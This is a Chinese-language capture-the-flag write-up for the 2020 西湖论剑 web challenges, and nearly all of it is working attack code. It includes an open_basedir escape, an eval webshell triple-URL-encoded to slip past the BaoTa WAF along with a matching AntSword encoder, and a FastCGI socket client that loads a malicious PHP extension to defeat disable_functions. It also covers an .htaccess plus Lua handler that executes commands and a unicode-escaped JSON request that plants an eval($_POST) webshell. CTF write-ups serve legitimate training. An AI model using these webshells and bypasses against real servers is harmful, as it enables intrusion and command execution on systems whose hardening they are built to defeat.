

2020西湖论剑¶
Web1¶
利用%0a来绕过文件名waf

发现有disable_functions和open_basedir
可以利用
<?php mkdir('dkkkkkkkk');chdir('dkkkkkkkk');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');
print_r(scandir("/"));
highlight_file("/etc/passwd")
?>
open_basedir
绕过disable_functions解法一¶
利用蚁剑插件，直接绕过，靶机有宝塔，不能传入动态执行参数
ha1师傅完了和我说可以利用URL编码3次。宝塔就不会拦截
WebShell
<?php
eval(urldecode(urldecode(urldecode($_POST['dkk']))));?>
蚁剑新建编码器；
'use strict';
function forceEncode(s) {
return Array.from(s).map(i=>'%'+i.charCodeAt(0).toString(16).padStart(2,'0')).join('')
}
module.exports = (pwd, data, ext={}) => {
const payload = data['_']
data[pwd] = forceEncode(forceEncode(forceEncode(payload)));
delete data['_'];
return data;
}
利用插件不多说
绕过disable_functions解法二¶
当时不知道绕过bt，于是就手动上传.so php文件
https://github.com/AntSwordProject/ant_php_extension
<?php
class Client
{
const VERSION_1 = 1;
const BEGIN_REQUEST = 1;
const PARAMS = 4;
const STDIN = 5;
const STDOUT = 6;
const STDERR = 7;
const DATA = 8;
const GET_VALUES = 9;
const GET_VALUES_RESULT = 10;
const UNKNOWN_TYPE = 11;
const RESPONDER = 1;
protected $keepAlive = false;
protected $_requests = array();
protected $_requestCounter = 0;
protected function buildPacket($type, $content, $requestId = 1)
{
$offset = 0;
$totLen = strlen($content);
$buf = '';
do {
// Packets can be a maximum of 65535 bytes
$part = substr($content, $offset, 0xffff - 8);
$segLen = strlen($part);
$buf .= chr(self::VERSION_1) /* version */
. chr($type) /* type */
. chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
. chr($requestId & 0xFF) /* requestIdB0 */
. chr(($segLen >> 8) & 0xFF) /* contentLengthB1 */
. chr($segLen & 0xFF) /* contentLengthB0 */
. chr(0) /* paddingLength */
. chr(0) /* reserved */
. $part; /* content */
$offset += $segLen;
} while ($offset < $totLen);
return $buf;
}
protected function buildNvpair($name, $value)
{
$nlen = strlen($name);
$vlen = strlen($value);
if ($nlen < 128) {
/* nameLengthB0 */
$nvpair = chr($nlen);
} else {
/* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
$nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
}
if ($vlen < 128) {
/* valueLengthB0 */
$nvpair .= chr($vlen);
} else {
/* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
$nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
}
/* nameData & valueData */
return $nvpair . $name . $value;
}
protected function readNvpair($data, $length = null)
{
if ($length === null) {
$length = strlen($data);
}
$array = array();
$p = 0;
while ($p != $length) {
$nlen = ord($data{$p++});
if ($nlen >= 128) {
$nlen = ($nlen & 0x7F << 24);
$nlen |= (ord($data{$p++}) << 16);
$nlen |= (ord($data{$p++}) << 8);
$nlen |= (ord($data{$p++}));
}
$vlen = ord($data{$p++});
if ($vlen >= 128) {
$vlen = ($nlen & 0x7F << 24);
$vlen |= (ord($data{$p++}) << 16);
$vlen |= (ord($data{$p++}) << 8);
$vlen |= (ord($data{$p++}));
}
$array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
$p += ($nlen + $vlen);
}
return $array;
}
public function buildAllPacket(array $params, $stdin)
{
// Ensure new requestID is not already being tracked
do {
$this->_requestCounter++;
if ($this->_requestCounter >= 65536 /* or (1 << 16) */) {
$this->_requestCounter = 1;
}
$id = $this->_requestCounter;
} while (isset($this->_requests[$id]));
$request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->keepAlive) . str_repeat(chr(0), 5), $id);
$paramsRequest = '';
foreach ($params as $key => $value) {
$paramsRequest .= $this->buildNvpair($key, $value, $id);
}
if ($paramsRequest) {
$request .= $this->buildPacket(self::PARAMS, $paramsRequest, $id);
}
$request .= $this->buildPacket(self::PARAMS, '', $id);
if ($stdin) {
$request .= $this->buildPacket(self::STDIN, $stdin, $id);
}
$request .= $this->buildPacket(self::STDIN, '', $id);
return $request;
}
}
$sock = stream_socket_client("unix:///tmp/php-cgi-74.sock", $errno, $errstr);
$client = new Client();
$payload_file = "/tmp/jylsec.php";
$params = array(
'REQUEST_METHOD' => 'GET',
'SCRIPT_FILENAME' => $payload_file,
'PHP_ADMIN_VALUE' => "extension_dir = /tmp\nextension = jylsec.so",
);
$data = $client->buildAllPacket($params, '');
fwrite($sock, $data);
var_dump(fread($sock, 4096));
?>
利用lua¶
bt默认安装了一个lua 模块
上传.htaccess
AddHandler lua-script .lua
上传shel.lua
require "string"
function handle(r)
r.content_type = "text/plain"
local t = io.popen('/readflag')
local a = t:read("*all")
r:puts(a)
if r.method == 'GET' then
for k, v in pairs( r:parseargs() ) do
r:puts( string.format("%s: %s\n", k, v) )
end
else
r:puts("Unsupported HTTP method " .. r.method)
end
end
Web5¶
<?php
include 'security.php';
if(!isset($_GET['source'])){
show_source(__FILE__);
die();
}
$sandbox = 'sandbox/'.sha1($_SERVER['HTTP_X_FORWARDED_FOR']).'/';
var_dump($sandbox);
if(!file_exists($sandbox)){
mkdir($sandbox);
file_put_contents($sandbox."index.php","<?php echo 'Welcome To Dbapp OSS.';?>");
}
$action = $_GET['action'];
$content = file_get_contents("php://input");
if($action == "write" && SecurityCheck('filename',$_GET['filename']) &&SecurityCheck('content',$content)){
$content = json_decode($content);
$filename = $_GET['filename'];
$filecontent = $content->content;
$filename = $sandbox.$filename;
file_put_contents($filename,$filecontent."\n Powered By Dbapp OSS.");
}elseif($action == "reset"){
$files = scandir($sandbox);
foreach($files as $file) {
if(!is_dir($file)){
if($file !== "index.php"){
unlink($sandbox.$file);
}
}
}
}
else{
die('Security Check Failed.');
}
waf了一些参数，利用unicode编码绕过
POST http://easyjson.8a3da2.challenge.gcsis.cn/?source&action=write&filename=c.php HTTP/1.1
Host: easyjson.8a3da2.challenge.gcsis.cn
Content-Length: 237
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://easyjson.8a3da2.challenge.gcsis.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://easyjson.8a3da2.challenge.gcsis.cn/?source&action=write&filename=1
Accept-Encoding: gzip, deflate
Accept-Language: en,zh;q=0.9,zh-CN;q=0.8
X-Forwarded-For: dkk3
Cookie: UM_distinctid=174e7751dbe171-0961396097844b-31697304-384000-174e7751dbfcc6
Connection: close
{"\u0063\u006f\u006e\u0074\u0065\u006e\u0074":"<\u003f\u0070\u0068\u0070\u0020\u0070\u0068\u0070\u0069\u006e\u0066\u006f\u0028\u0029\u003b\u0065\u0076\u0061\u006c\u0028\u0024\u005f\u0050\u004f\u0053\u0054\u005b\u0031\u005d\u0029\u003f>"}